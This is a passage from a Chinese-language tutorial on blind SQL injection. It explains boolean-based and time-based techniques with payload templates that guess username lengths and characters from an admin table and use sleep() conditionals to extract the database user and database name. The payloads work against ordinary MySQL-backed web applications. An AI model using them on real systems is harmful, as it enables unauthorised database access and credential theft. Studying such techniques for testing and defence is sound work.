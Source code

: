 第二步：判断某条数据的长度(以便逐位猜解数据)
```
and (select length(username) from admin limit n,1)=长度
```
![](http://image.ixysec.com/image/sql/sql094.png)

第三步：逐位猜解数据
```
and (select ascii(substr(username,位数,1)) from admin limit n,1)=ascii码
```
![](http://image.ixysec.com/image/sql/sql095.png)

**基于布尔盲注的实质：**
```
and (SQL语句)=数字 ，页面正确则结果为该数字，否则不是
```


#### 盲注-基于时间的盲注

基于布尔的盲注和基于时间的盲注不同，前者是通过页面差来判断是否存在注入以及数据注入的;后者无法得到页面差(比如：无论输入什么都得到同一个页面),而它只能通过SQL语句执行的时间来判断注入以及数据注入.

常见无界面差的情况：
1. 无论输入什么都只显示无信息页面，例如登陆页面。这种情况下可能只有登录失败页面，错误页面被屏蔽了，并且在没有密码的情况下，登录成功的页面一般情况下也不知道。在这种情况下，有可能基于时间的SQL注入会有效。
2. 无论输入什么都只显示正常信息页面。例如，采集登录用户信息的模块页面。采集用户的 IP、浏览器类型、refer字段、session字段，无论用户输入什么，都显示正常页面。

注入过程：
判断基于时间的盲注
```
and if(1=1,sleep(5),1)
and if(1=2,sleep(5),1)
if(条件,True返回内容,False返回内容)用来进行判断，sleep()延时函数，单位秒。
```
![](http://image.ixysec.com/image/sql/sql096.png)

如上图所示，当if判断为真时，则会延时5s(如果文件中通过localhost连接数据库会延时5+1=6秒)；而if判断为假时，则不延时。

猜解当前数据库用户名
第一步：猜解用户名的长度。(猜解到的用户名长度用于下面的逐位猜解用户名)
```
and if((select length(user()))=长度,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql097.png)

第二步：逐位猜解用户名。
```
and if((select ascii(substr(user(),位数,1))=ascii码),sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql098.png)

猜解当前数据库名
第一步：猜解数据库名的长度。
```
and if((select length(database()))=长度,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql099.png)
